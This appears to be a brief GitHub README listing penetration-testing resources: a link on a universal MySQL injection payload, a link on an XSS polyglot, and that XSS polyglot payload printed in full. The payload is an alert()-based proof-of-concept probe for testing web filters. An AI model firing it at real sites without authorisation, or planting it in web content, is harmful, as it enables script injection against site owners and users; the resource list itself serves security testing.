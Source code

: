 # seclinks
Collection of my various security/penetration testing resources

SQL Injection:  
    MySQL universal SQLi payload:  
    https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/

XSS:
    XSS Polyglot:
    ´´´jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e´´´

    https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

